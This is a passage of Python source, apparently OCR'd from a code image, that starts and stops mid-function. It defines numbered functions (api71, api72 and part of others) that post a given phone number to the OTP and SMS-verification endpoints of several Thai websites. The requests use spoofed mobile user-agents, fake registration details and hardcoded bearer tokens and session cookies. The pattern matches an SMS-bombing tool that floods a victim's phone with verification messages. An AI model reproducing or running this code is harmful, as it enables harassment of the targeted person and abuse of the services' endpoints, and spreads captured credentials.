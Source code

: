         post("https://prettygaming168-api.auto888.cloud/api/v3/otp/send", data={"tel": phone, "otp_type": "register"}, headers={

             "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36", "authorization": "Basic 755b4608e637d413d668502704d93e377f4f67b2d3d0f50e5644af3607f31ddb3174ecaf5b2c40c86f9efc32de1ee0bbf3e7a2b32cb055a3cb7068e1bb152844"})

    def api71(phone):

        post("https://www.bigthailand.com/authentication-service/user/OTP", json={"locale": "th", "phone": f"+66{phone[1:]}", "email": "dkdk@gmail.com", "userParams": {"buyerName": "ekek ks", "activateLink": "www.google.com"}}, headers={"content-type": "application/json", "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36", "authorization": "Bearer eyJ0eXAiOiJKV1QiLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwiYWxnIjoiZGlyIn0..P9LOZOUnXvgw5wDxPqSuCg.jjRU6v4iidkFNv4nROigeng1s9e96LnzplOaml7YSasaTxwozO37IWuq-h6bV5JyxpaRvIL9UCochw-3OciWq_VrORNwnH45b-ziIAhZ-CpLpt1O_4EpM27y7TYXBb_w6DT3BJp1ARkG7CqSouTnGg.2n1G9HbFJzArFH5Rr2m9kg",

             "cookie": "auth.strategy=local;auth._token.local=Bearer%20eyJ0eXAiOiJKV1QiLCJlbmMiOiJBMTI4Q0JDLUhTMjU2IiwiYWxnIjoiZGlyIn0..P9LOZOUnXvgw5wDxPqSuCg.jjRU6v4iidkFNv4nROigeng1s9e96LnzplOaml7YSasaTxwozO37IWuq-h6bV5JyxpaRvIL9UCochw-3OciWq_VrORNwnH45b-ziIAhZ-CpLpt1O_4EpM27y7TYXBb_w6DT3BJp1ARkG7CqSouTnGg.2n1G9HbFJzArFH5Rr2m9kg;_utm_objs=eyJzb3VyY2UiOiJnb29nbGUiLCJtZWRpdW0iOiJjcGMiLCJjYW1wYWlnbiI6ImFkd29yZHMiLCJj%0D%0Ab250ZW50IjoiYWR3b3JkcyIsInRlcm0iOiJhZHdvcmRzIiwidHlwZSI6InJlZmVycmVyIiwidGlt%0D%0AZSI6MTY0MjMyOTM5OTU4NSwiY2hlY2tzdW0iOiJaMjl2WjJ4bExXTndZeTFoWkhkdmNtUnpMVEUy%0D%0ATkRJek1qa3pPVGsxT0RVPSJ9;_pk_ref.564990563.2c0e=%5B%22%22%2C%22%22%2C1642329400%2C%22https%3A%2F%2Fwww.google.com%2F%22%5D;_pk_ses.564990563.2c0e=*;_gcl_au=1.1.833577636.1642329400;_asm_visitor_type=n;_ac_au_gt=1642329406505;cdp_session=1;_asm_uid=637506384;_ga=GA1.2.1026893832.1642329403;_gid=GA1.2.1437369318.1642329403;OptanonConsent=isIABGlobal=false&datestamp=Sun+Jan+16+2022+17%3A36%3A45+GMT%2B0700+(%E0%B9%80%E0%B8%A7%E0%B8%A5%E0%B8%B2%E0%B8%AD%E0%B8%B4%E0%B8%99%E0%B9%82%E0%B8%94%E0%B8%88%E0%B8%B5%E0%B8%99)&version=6.9.0&hosts=&consentId=e0fe7ec6-3c1e-4aa7-9e72-ecd2ed724416&interactionCount=0&landingPath=https%3A%2F%2Fwww.bigthailand.com%2Fcategory%2F850%2F%25E0%25B8%2599%25E0%25B9%2589%25E0%25B8%25B3%25E0%25B8%25A1%25E0%25B8%25B1%25E0%25B8%2599%25E0%25B9%2580%25E0%25B8%2584%25E0%25B8%25A3%25E0%25B8%25B7%25E0%25B9%2588%25E0%25B8%25AD%25E0%25B8%2587%25E0%25B9%2581%25E0%25B8%25A5%25E0%25B8%25B0%25E0%25B8%2582%25E0%25B8%25AD%25E0%25B8%2587%25E0%25B9%2580%25E0%25B8%25AB%25E0%25B8%25A5%25E0%25B8%25A7%2F%25E0%25B8%2599%25E0%25B9%2589%25E0%25B8%25B3%25E0%25B8%25A1%25E0%25B8%25B1%25E0%25B8%2599%25E0%25B9%2580%25E0%25B8%2584%25E0%25B8%25A3%25E0%25B8%25B7%25E0%25B9%2588%25E0%25B8%25AD%25E0%25B8%2587%3Fgclid%3DCj0KCQiAoY-PBhCNARIsABcz772kcpD38d5bhec3kfJbZgVxKFVwa2RmZytANH-PiwJdPXbqc7VOzCEaAuBkEALw_wcB&groups=C0001%3A1%2CC0003%3A1%2CC0002%3A1%2CC0007%3A1;_fbp=fb.1.1642329406623.363807498;_hjSessionUser_2738378=eyJpZCI6ImVkNmZhOGY3LTQwNDctNTNjMi04YTVjLTQ0OGE5MDA4YjhiZCIsImNyZWF0ZWQiOjE2NDIzMjk0MDQ4MDMsImV4aXN0aW5nIjpmYWxzZX0=;_hjFirstSeen=1;_hjIncludedInSessionSample=0;_hjSession_2738378=eyJpZCI6ImNhN2UwZDFhLTZkNmQtNGM0Mi04YmI1LTg4NWJmNzZjMGExZCIsImNyZWF0ZWQiOjE2NDIzMjk0MTEwNzcsImluU2FtcGxlIjpmYWxzZX0=;_hjIncludedInPageviewSample=1;_hjAbsoluteSessionInProgress=0;_gac_UA-165856282-1=1.1642329477.Cj0KCQiAoY-PBhCNARIsABcz772kcpD38d5bhec3kfJbZgVxKFVwa2RmZytANH-PiwJdPXbqc7VOzCEaAuBkEALw_wcB;_gcl_aw=GCL.1642329478.Cj0KCQiAoY-PBhCNARIsABcz772kcpD38d5bhec3kfJbZgVxKFVwa2RmZytANH-PiwJdPXbqc7VOzCEaAuBkEALw_wcB;_pk_id.564990563.2c0e=0.1642329400.1.1642329489.1642329400.;_ac_client_id=637515726.1642329496;_ac_an_session=zmzlzhzlzizqzmzjzkzjzdzlzgzkzmzizmzkzhzlzdzizlznzhzgzhzqznzqzlzdzizdzizlznzhzgzhzqznzqzlzdzizlznzhzgzhzqznzqzlzdzizdzgzjzizdzjzd2h25zdzgzdzezizd;au_id=637515726;_ga_80VN88PBVD=GS1.1.1642329399.1.1.1642329493.44"})

    def api72(phone):

        post("https://api.cashmarket-th.com/app/userinfo/send/smsCode", json={"baseParams": {"platformId": "android", "deviceType": "h5", "deviceIdKh": "20220118121149smyjjs57jxtqbwkuu74y0vd6p5yzhrmp86872f73364d46d3bf9446ddd583ef61ee8fafe504bab46ec267ca96a99281d6rreqhrlgsg4p3srgv1i5s4pp8u9la6gf1", "termSysVersion": "5.1.1", "termModel": "A37f", "brand": "", "termId": "null", "appType": "6",
